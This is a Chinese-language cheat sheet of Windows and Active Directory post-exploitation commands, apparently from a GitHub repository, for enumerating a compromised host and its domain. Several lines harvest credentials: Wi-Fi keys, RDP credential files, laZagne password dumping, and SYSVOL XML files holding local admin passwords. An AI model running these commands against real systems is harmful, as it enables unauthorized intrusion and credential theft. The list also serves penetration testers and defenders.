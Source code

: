 # 当前主机信息搜集

## 常用信息搜集

+ whoami   # 查看当前用户

+ net user   # 查看所有用户

+ query   # 查看当前在线用户

+ ipconfig /all   # 查看当前主机的主机名/IP/DNS等信息

+ route print   # 查看路由表信息

+ netstat -ano   # 查看端口开放情况

+ arp -a   # 查看arp解析情况

+ tasklist /svc   # 查看进程及对应服务名

+ net localgroup administrators   # 查看管理员组成员

+ systeminfo   # 查看系统信息含补丁信息

+ net use   # 查看ipc连接情况

+ net view   # 查看匿名共享情况

+ netsh firewall show state   # 查看防火墙状态

+ cmdkey /l   # 查看当前保存的登陆凭证

  

## 密码搜集

+ netsh wlan show profiles   # 查看连接过的wifi名称

+ netsh wlan show profile name="wifi名称" key=clear   # 查看wifi的密码

+ dir /a %userprofile%\AppData\Local\Microsoft\Credentials\*   # 查看RDP连接凭证

+ dir /a /s /b "网站目录\\\*config\*" > 1.txt   # 数据库配置文件

+ laZagne.exe all -oN   # 本地wifi/浏览器等密码

## 连通性

+ ping www.baidu.com   # ICMP连通性

+ nslookup www.baidu.com   # DNS连通性

+ curl https://www.baidu.com   # http连通性

+ nc ip port   # TCP连通性


# 域信息搜集

## 常用信息搜集

+ net config workstation   #查看当前登录域

+ net user /domain   # 获得所有域用户列表

+ net view /domain   # 查看所有的域

+ net view /domain:XXX   # 查看域内某台主机详情

+ net group /domain   # 查看所有域用户组列表

+ net group "domain computers" /domain   # 查看域内所有的主机名

+ net group "domain admins" /domain   # 查看所有域管理员

+ net group "domain controllers" /domain   # 查看所有域控制器

+ net group "enterprise admins" /domain   # 查看所有企业管理员

+ nltest /domain_trusts   # 获取域信任信息

+ net time /domain   # 查看当前登录域

+ net accounts /domain   # 查看域密码策略

+ dsquery server   # 寻找目录中的域控制器

## 环境信息搜集

+ nbtscan.exe xx.xx.xx.xx/24   # 查看c段机器

+ csvde.exe -f 1.csv -k   # 批量导入/导出AD用户

+ setspn.exe -T xx.xx.xx.xx -Q */*   # 查看当前域内所有spn

## 密码搜集

+ dir /s /a \\域控IP\SYSVOL\*.xml   # 获取域里面所有机子的本地管理员账号密码
